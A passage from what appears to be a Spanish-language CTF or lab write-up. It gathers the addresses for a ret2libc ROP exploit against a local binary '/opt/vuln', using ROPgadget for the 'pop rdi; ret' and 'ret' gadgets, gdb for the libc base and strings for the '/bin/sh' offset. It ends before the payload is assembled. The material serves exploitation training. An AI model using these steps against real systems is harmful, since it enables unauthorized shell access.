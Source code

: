 necesitamos las 5 direcciones que vamos a calcular a continuacion, comienzo localizando la direccion del gadget `POP RDI, RET`

```bash
ROPgadget --binary /opt/vuln | grep "pop rdi"
```

![image](https://github.com/user-attachments/assets/d0a2b1bf-1130-4a4f-84b7-9bac2f04a157)

`address POP RDI, RET = 0x000000000040116a`

ahora buscaremos la direccion de `"/bin/sh"` y para esto vamos a buscar primero la direccion base de `libc` asi que vamos a necesitar ejecutar el binario con el
depurador

```bash
gdb /opt/vuln
```
creamos un breakpoint `break main` o un punto de interrupcion en la funcion `main`, esto nos permitira examinar el binario antes de que termine de ejecutarse, luego 
corremos el binario con `run` y por ultimo localizamos la direccion de memoria que necesitamos con ` info proc mappings`; obteniendo asi la direccion base de `libc`

![image](https://github.com/user-attachments/assets/e23beb90-f718-4f77-8b7c-bb3e81cb86f8)

`addres_libc_base= 0x7ffff7ddd000`

ahora localizaremos la direccion relativa de "/bin/sh" dentro de `libc`

```bash
strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep /bin/sh
```

![image](https://github.com/user-attachments/assets/735a3e87-b51c-4694-9f18-52cd358c74fb)

obtenemos la direccion relativa = `0x196031` 

Con estos datos ya podemos obtener la direccion absoluta de "/bin/sh" sumando la direccion base de `libc` y la direccion relativa de `"/bin/sh"`

```bash
printf "0x%x\n" $((0x7ffff7ddd000 + 0x196031))
```

![image](https://github.com/user-attachments/assets/358bbb8a-5a30-4a24-a862-77f1d3d83818)

direccion absoluta de `"/bin/sh" 0x7ffff7f73031`

ahora calcularemos la direccion de retorno `ret` que se utiliza para alinear la pila y asegurar que la ejecución del programa continúa sin interrupciones

```bash
ROPgadget --binary /opt/vuln | grep "ret"
```

![image](https://github.com/user-attachments/assets/1217642e-9592-4aef-82fa-01fe5bb0a9a8)

`direccion_ret = 0x0000000000401016`
